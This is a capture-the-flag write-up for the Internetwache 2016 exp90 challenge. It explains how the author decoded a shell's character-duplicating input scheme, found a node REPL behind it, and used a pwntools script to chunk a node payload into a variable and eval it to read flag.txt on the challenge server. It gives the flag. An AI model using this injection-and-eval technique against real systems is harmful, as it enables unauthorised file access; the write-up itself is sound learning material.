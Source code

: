 ```yaml
---
layout: post
title: Internetwache2016 exp90 Writeup
date:   2016-02-21 15:26:20 +0900
---
```

The challenge prompts a shell acting strangely. It encodes the user input in some way and passes it to interpreter.

So the first challenge was to figure out the rule behind it.
My first attempt was `id` which gave me `ddii` in response. It was quite clear what the encoding logic does. It kind of duplicates my input by character and reverses it. And after fiddling around with the shell I came up with this block of python code to encode my input.

{% highlight python %}
def send_cmd(conn,cmd):
    out = ''
    if len(cmd) % 2 == 1:
        cmd += ' '
    for ch in cmd:
        out += ch*(len(cmd)/2+1)
    formatted_cmd = out[::-1]
    conn.sendline(formatted_cmd)
{% endhighlight %}

However the code above didn't work for shell command of length > 10.

The next challenge was to figure out what this shell is made of. bash? doesn't seem so. After fiddling around, I typed in `this` and got some json object which looks like `InterFace { ... }`
I googled it, and it seemed like a json object that oftens shows up when priting node error message. This is where I figured out the shell running behind this was node REPL.

After that writing the exploit was pretty straight forward. I just needed to write a vaild node code which would read `flag.txt`

There is one limitation to keep in mind that the shell wouldn't accept a command with length > 10 (due to my poor guess).

But there was an easy workaround for this: as long as `eval()` was available, I could store my node script file to a variable like `a` and execute it by `eval(a)`.

Here is the python script I used to automate this flow:

{% highlight python %}
#!/usr/bin/env python

from pwn import *

def send_cmd(conn,cmd):
    out = ''
    if len(cmd) % 2 == 1:
        cmd += ' '
    for ch in cmd:
        out += ch*(len(cmd)/2+1)
    formatted_cmd = out[::-1]
    conn.sendline(formatted_cmd)

def send_node_script(conn,script):
    send_cmd(conn,"a=''")
    for i in xrange(0,len(script),5):
        ch = script[i:i+5]
        send_cmd(conn,'a+="{0}"'.format(ch))
        print conn.recvline()
    send_cmd(conn,"eval(a)")

conn = remote('188.166.133.53',12589)

print conn.recvuntil('$')
recv_length = 100

scriptfile = """
fs = require('fs');
fs.readFile('/home/exp90/flag.txt','utf8',function(err,data){
if(err){
return console.log(err);
}
d=data;
console.log(data);
})
""".replace('\n','')

send_node_script(conn,scriptfile)

while recv_length !=0 :
    cmd = raw_input()[:-1]
    print repr(cmd)
    send_cmd(conn,cmd)
    recv_buf = conn.recvuntil('$')
    recv_length = len(recv_buf)
    print recv_buf

conn.close()
{% endhighlight %}

The flag is: `IW{Shocked-for-nothing!}`
